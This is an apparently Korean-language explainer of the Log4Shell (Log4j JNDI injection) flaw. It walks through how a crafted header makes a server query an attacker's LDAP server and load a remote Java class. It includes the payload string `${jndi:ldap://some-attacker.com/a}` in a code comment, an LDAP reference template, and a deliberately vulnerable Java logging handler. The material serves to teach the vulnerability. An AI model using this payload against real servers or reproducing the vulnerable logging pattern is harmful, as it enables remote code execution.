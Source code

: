 공격 Flow

1. 공격자는 Payload가 담긴 HTTP Request를 취약한 서버로 전송한다. 
**`User-Agent: ${jndi:ldap://<host>:<port>/<path>}`**
2. Request를 받은 취약한 서버는 LDAP Query로 공격자의 LDAP Server에 Query를 요청한다.
3. 공격자의 LDAP Server는 RCE 같은 공격 Payload가 담긴 Link의 정보를 전송한다.

```
dn:
javaClassName: <class name>
javaCodeBase: <base URL>
objectClass: javaNamingReference
javaFactory: <file base>
```

- 요기서 `javaCodeBase` 와 `javaFactory`는 공격자의 Java Class(`javaClassName`, RCE를 위한 실행파일)의 위치를 나타내는 정보다.
1. 취약한 서버는 공격자의 LDAP Server로 부터 받은 `javaCodeBase`와 `javaFactory`를 조합하여 어든 URL정보로 Java Class(`javaClassName`)를 요청한다.
2. 공격자의 HTTP Server에서 `javaClassName` 을 찾고 해당 Java Class 파일을 Response로 취약한 서버로 전송된다. 그리고 해당 실행 파일이 취약한 서버에서 실행되면서 공격이 완성된다.

## Example

### Vulnerable Code

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

import java.io.*;
import java.sql.SQLException;
import java.util.*;

public class VulnerableLog4jExampleHandler implements HttpHandler {

  static Logger log = LogManager.getLogger(VulnerableLog4jExampleHandler.class.getName());

  /**
   * A simple HTTP endpoint that reads the request's x-api-version header and logs it back.
   * This is pseudo-code to explain the vulnerability, and not a full example.
   * @param he HTTP Request Object
   */
  public void handle(HttpExchange he) throws IOException {
    String apiVersion = he.getRequestHeader("X-Api-Version");

    // This line triggers the RCE by logging the attacker-controlled HTTP header.
    // The attacker can set their X-Api-Version header to: ${jndi:ldap://some-attacker.com/a}
    log.info("Requested Api Version:{}", apiVersion);

    String response = "<h1>Hello from: " + apiVersion + "!</h1>";
    he.sendResponseHeaders(200, response.length());
    OutputStream os = he.getResponseBody();
    os.write(response.getBytes());
    os.close();
  }
}
```
